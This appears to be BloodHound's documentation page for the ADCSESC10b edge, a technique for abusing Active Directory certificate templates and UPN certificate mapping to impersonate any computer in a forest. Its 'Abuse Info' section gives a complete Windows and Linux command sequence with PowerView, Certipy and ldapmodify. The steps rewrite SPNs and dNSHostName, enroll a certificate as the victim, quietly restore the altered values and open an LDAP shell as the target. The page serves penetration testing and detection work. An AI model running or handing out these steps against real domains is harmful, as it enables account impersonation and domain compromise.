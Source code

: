 ---
title: ADCSESC10b
description: "The principal has control over a victim computer with permission to enroll on one or more certificate templates, configured to enable certificate authentication, and require the `dNSHostName` of the enrollee included in the Subject Alternative Name (SAN)."
---


<Frame>
  <img src="/hc/images/image-2-1.png"/>
</Frame>

The victim computer also has enrollment permission for an enterprise CA with the necessary templates published. This enterprise CA is trusted for NT authentication in the forest, and chains up to a root CA for the forest. There is an affected Domain Controller (DC) configured to allow UPN certificate mapping. This setup lets the principal impersonate any AD forest computer without their credentials.

The attacker principal can abuse their control over the victim computer to modify the victim computer's `dNSHostName` attribute to match the `dNSHostName` of a targeted computer. The attacker principal will then abuse their control over the victim computer to obtain the credentials of the victim computer, or a session as the victim computer, and enroll a certificate as the victim in one of the affected certificate templates. The `dNSHostName` of the victim will be included in the issued certificate under SAN DNS name. The UPN certificate mapping configuration on the affected DCs make it possible to authenticate over Schannel as the targeted computer. The DC will split the SAN DNS name into a computer name and a domain name, confirm that the domain name is correct, and use the computer name appended a $ to identify a computer with matching `sAMAccountName` which the attacker will be authenticated as.

## Abuse Info

### Windows

Step 1: Remove SPNs including `dNSHostName` on victim.

The SPNs of the victim will be automatically updated when you change the `dNSHostName`. AD will not allow the same SPN entry to be set on two accounts. Therefore, you must remove any SPN on the victim account that includes the victim's `dNSHostName`. 

Set SPN of the victim computer using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'serviceprincipalname'='HOST/victim'}
```

Step 2: Create .exe version of Certipy. 

Install PyInstaller on a host with python installed, clone down Certipy from GitHub, and run this cmdlet from the root of the GitHub repo to bundle the python project into an .exe binary which can be used on Windows computer where Python is not installed:

```bash
pyinstaller ./Certipy.spec
```

The Certipy.exe will be in the _dist_ folder.

Step 3: Set `dNSHostName` of victim computer to targeted computer's `dNSHostName`.

Set `dNSHostName` of the victim principal using Certipy:

```bash
Certipy.exe account update -u ATTACKER@CORP.LOCAL -p PWD -user VICTIM$ -dns TARGET.CORP.LOCAL
```

Step 4: Check if the 'mail' attribute of victim must be set and set it if required.

If the certificate template is of schema version 2 or above, and its attribute 'msPKI-CertificateNameFlag' contains the flag SUBJECT\_REQUIRE\_EMAIL and/or SUBJECT\_ALT\_REQUIRE_EMAIL, then the victim principal must have their mail attribute set for the certificate enrollment. The CertTemplate BloodHound node will have "Subject Require Email" or "Subject Alternative Name Require Email" set to true if any of the flags are present.

If the certificate template is of schema version 1 or does not have any of the email flags, then
continue to Step 5.

If any of the two flags are present, you will need the victim’s mail attribute to be set. The value of
the attribute will be included in the issues certificate but it is not used to identify the target
principal why it can be set to any arbitrary string.

Check if the victim has the mail attribute set using PowerView:

```bash
Get-DomainObject -Identity VICTIM -Properties mail
```
If the victim has the mail attribute set, continue to Step 5.

If the victim does not has the mail attribute set, set it to a dummy mail using PowerView:

```bash
Set-DomainObject -Identity VICTIM -Set @{'mail'='dummy@mail.com'}
```
Step 5: Obtain a session as victim.  There are several options for this step.

You can obtain a session as SYSTEM on the host, which allows you to interact with AD as the computer account, by abusing control over the computer AD object (see [GenericAll edge](/hc/en-us/articles/17312347318043-GenericAll) documentation).

Step 6: Enroll certificate as victim. 

Use Certipy as the victim principal to request enrollment in the affected template, specifying the affected EnterpriseCA:

```bash
Certipy.exe req -u VICTIM$ -p PWD -ca CA-NAME -target CA-SERVER -template TEMPLATE
```

The issued certificate will be saved to disk with the name of the targeted user.

Step 7 (Optional): Set `dNSHostName` and SPN of victim to the previous value.

To avoid issues in the environment, set the `dNSHostName` and SPN of the victim computer back to it’s previous values using Certipy and PowerView:

```bash
Certipy.exe account update -u ATTACKER@CORP.LOCAL -p PWD -user VICTIM$ -dns VICTIM.CORP.LOCAL
```
```bash
Set-DomainObject -Identity VICTIM -Set @{'serviceprincipalname'='HOST/victim'}
```

Step 8: Perform Schannel authentication as targeted principal against affected DC using certificate.

Open an LDAP shell as the victim using Certipy by specifying the certificate created in Step 6 and the IP of an affected DC:

```bash
Certipy.exe auth -pfx TARGET.pfx -dc-ip IP -ldap-shell
```
**Linux**

Step 1: Remove SPNs including `dNSHostName` on victim.

The SPNs of the victim will be automatically updated when you change the `dNSHostName`. AD will not allow the same SPN entry to be set on two accounts. Therefore, you must remove any SPN on the victim account that includes the victim's `dNSHostName`.

Remove SPN entries with ldapmodify:

```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\ndelete: servicePrincipalName\nservicePrincipalName: SPN" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```

Step 2: Set `dNSHostName` of victim computer to targeted computer's `dNSHostName`.

Set `dNSHostName` of the victim principal using Certipy:

```bash
certipy account update -username ATTACKER@CORP.LOCAL -password PWD -user VICTIM$ -dns TARGET.CORP.LOCAL
```

Step 3: Check if the 'mail' attribute of victim must be set and set it if required.

If the certificate template is of schema version 2 or above, and its attribute 'msPKI-CertificateNameFlag' contains the flag SUBJECT\_REQUIRE\_EMAIL and/or SUBJECT\_ALT\_REQUIRE_EMAIL, then the victim principal must have their mail attribute set for the certificate enrollment. The CertTemplate BloodHound node will have "Subject Require Email" or "Subject Alternative Name Require Email" set to true if any of the flags are present.

If the certificate template is of schema version 1 or does not have any of the email flags, then
continue to Step 4.

If any of the two flags are present, you will need the victim’s mail attribute to be set. The value of
the attribute will be included in the issues certificate but it is not used to identify the target
principal why it can be set to any arbitrary string.

Check if the victim has the mail attribute set using ldapsearch:

```bash
ldapsearch -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME -b "VICTIM-DN" mail
```

If the victim has the mail attribute set, continue to Step 4.

If the victim does not has the mail attribute set, set it to a dummy mail using ldapmodify:

```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\nreplace: mail\nmail: test@mail.com" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```

Step 4: Obtain a session as victim.  There are several options for this step.

You can obtain a session as SYSTEM on the host, which allows you to interact with AD as the computer account, by abusing control over the computer AD object (see [GenericAll edge](/hc/en-us/articles/17312347318043-GenericAll) documentation).

Step 5: Enroll certificate as victim. 

Use Certipy as the victim principal to request enrollment in the affected template, specifying the affected EnterpriseCA:

```bash
certipy req -u VICTIM@CORP.LOCAL -p PWD -ca CA-NAME -target CA-SERVER -template TEMPLATE
```

The issued certificate will be saved to disk with the name of the targeted user.

Step 6 (Optional): Set `dNSHostName` and SPN of victim to the previous value.

To avoid issues in the environment, set the `dNSHostName` and SPN of the victim computer back to it’s previous value using Certipy and ldapmodify:

```bash
certipy account update -username ATTACKER@CORP.LOCAL -password PWD -user VICTIM -dns VICTIM.CORP.LOCAL
```
```bash
echo -e "dn: VICTIM-DN\nchangetype: modify\nadd: servicePrincipalName\nservicePrincipalName: SPN" | ldapmodify -x -D "ATTACKER-DN" -w 'PWD' -h DOMAIN-DNS-NAME
```

Step 7: Perform Schannel authentication as targeted principal against affected DC using certificate.

Open an LDAP shell as the victim using Certipy by specifying the certificate created in Step 5 and the IP of an affected DC:

```bash
certipy auth -pfx TARGET.pfx -dc-ip IP -ldap-shell
```

## Opsec Considerations

When the affected certificate authority issues the certificate to the attacker, it will retain a local copy
of that certificate in its issued certificates store. Defenders may analyze those issued certificates to
identify illegitimately issued certificates and identify the principal that requested the certificate, as
well as the target identity the attacker is attempting to impersonate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* [https://attack.mitre.org/techniques/T1649/](https://attack.mitre.org/techniques/T1649/) 

### Abuse and Opsec references

* [Certipy](https://github.com/ly4k/Ce)
* [Certipy 4.0](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)
* [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject)
* [LDAPSearch](https://linux.die.net/man/1/ldapsearch)
* [LDAPModify](https://linux.die.net/man/1/ldapmodify)
